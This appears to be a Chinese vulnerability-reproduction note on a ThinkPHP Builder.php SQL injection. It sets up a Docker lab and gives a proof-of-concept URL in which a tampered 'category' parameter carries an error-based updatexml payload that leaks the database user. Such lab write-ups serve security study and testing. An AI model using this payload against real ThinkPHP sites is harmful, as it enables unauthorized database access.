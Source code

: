 ```yaml
---
title: ThinkPHP Builder.php SQL注入漏洞
category: 
- 渗透测试
tags: 
- Pocsuite
- Docker
- 漏洞复现

---
```


### 漏洞概述

- [影响版本](https://mp.weixin.qq.com/s/4xXS7usHMFNgDTEHcHBcBA)

### 漏洞环境搭建

- 拉取镜像到本地

```bash
$ docker pull medicean/vulapps:t_thinkphp_1
```

- 启动环境

```bash
$ docker run -d -p 80:80 medicean/vulapps:t_thinkphp_1
#-p 80:80 前面的 80 代表物理机的端口，可随意指定。
```



<!-- more -->

### 漏洞利用

- 访问 `http://你的 IP 地址:端口号/`

- Poc

```python
1.打开Burp，开启抓包，选择消息类别后，点击「标记已读」按钮，截获到数据包

该请求为 GET, 请求的 URL 为:

http://127.0.0.1/Home/Index/readcategorymsg?category=%E7%B3%BB%E7%BB%9F%E6%B6%88%E6%81%AF


2.修改GET参数category,提交到服务端后页面出现SQL注入报错结果:

http://127.0.0.1/Home/Index/readcategorymsg?category[0]=bind&category[1]=0 and (updatexml(1,concat(0x7e,(user())),0))
```

- exp

暂无

### 参考链接

[references](https://mp.weixin.qq.com/s/4xXS7usHMFNgDTEHcHBcBA)

<!-- more -->